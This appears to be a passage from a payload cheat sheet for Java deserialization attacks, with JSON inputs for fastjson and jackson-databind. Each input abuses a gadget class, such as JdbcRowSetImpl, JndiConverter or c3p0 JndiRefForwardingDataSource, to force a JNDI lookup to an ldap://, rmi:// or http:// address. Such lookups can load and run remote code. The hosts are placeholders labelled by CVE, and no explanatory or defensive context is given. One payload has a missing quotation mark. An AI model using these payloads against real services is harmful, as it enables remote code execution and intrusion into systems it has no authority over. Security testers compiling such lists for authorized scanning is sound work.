 ```
{"@type": "com.sun.rowset.JdbcRowSetImpl","dataSourceName": "ldap://fastjson_1.2.24.localhost/fastjson_1.2.24", "autoCommit": true}

{"name": {"@type":"java.lang.Class","val": "com.sun.rowset.JdbcRowSetImpl"},"x": {"@type": "com.sun.rowset.JdbcRowSetImpl","dataSourceName": rmi://fastjson_1.2.47.localhost/fastjson_1.2.47","autoCommit": true}}}

{"@type": "org.apache.xbean.propertyeditor.JndiConverter","asText": "ldap://fastjson_1.2.62.localhost/fastjson_1.2.62"}

{"@type": "oracle.jdbc.connector.OracleManagedConnectionFactory ","dataSourceName": "rmi://fastjson_1.2.62_2.localhost/fastjson_1.2.62_2"}

{"@type": "com.caucho.config.types.ResourceRef", "lookupName": "ldap://jackson_fastjson_10673.localhost/jackson_fastjson_10673"}

{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://jackson_fastjson_14540.localhost/jackson_fastjson_14540"}

// 基于spring框架的field
{"@type": "org.springframework.beans.factory.config.PropertyPathFactoryBean","targetBeanName": "rmi://localhost/Exploit","propertyPath": "foo","beanFactory": {"@type": "org.springframework.jndi.support.SimpleJndiBeanFactory","shareableResources": ["rmi://spring_field.localhost/spring_field"]}}

// 基于JndiRefForwardingDataSource
{"@type": "com.mchange.v2.c3p0.JndiRefForwardingDataSource","jndiName": "rmi://JndiRefForwardingDataSource.localhost/JndiRefForwardingDataSource","loginTimeout": 0}

// 基于JndiDataSourceFactoryDataSource
{"@type": "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties": {"data_source": "rmi://JndiDataSourceFactory.localhost/JndiDataSourceFactory"}}

// 基于StatisticsService
{"@type": "org.hibernate.jmx.StatisticsService","SessionFactoryJNDIName": "rmi://StatisticsService.localhost/StatisticsService"}

```
#### jackson_databind反序列化
> **jackson_databind反序列化payload集合**
```
{"param": ["com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig",{"properties": {"UserTransaction":"ldap://jackson_databind_9547.localhost/jackson_databind_9547"}}]}

{"param": ["br.com.anteros.dbcp.AnterosDBCPConfig", {"healthCheckRegistry": "ldap://jackson_databind_9548.localhost/jackson_databind_9548"}]}

{"param": ["com.caucho.config.types.ResourceRef", {"lookupName": "ldap://jackson_databind_10673.localhost/jackson_databind_10673"}]}

{"param": ["org.apache.openjpa.ee.WASRegistryManagedRuntime",{"registryName": "ldap://jackson_databind_11113.localhost/jackson_databind_11113"}]}

{"param": ["ch.qos.logback.core.db.JNDIConnectionSource", {"jndiLocation": "rmi://jackson_databind_12834.localhost/jackson_databind_12834"}]}

{"param": ["org.springframework.context.support.FileSystemXmlApplicationContext","http://jackson_databind_7525.localhost/jackson_databind_7525"]}

{"param": ["org.apache.xbean.propertyeditor.JndiConverter", {"asText":"ldap://jackson_2020_8840.localhost/jackson_2020_8840"}]}

```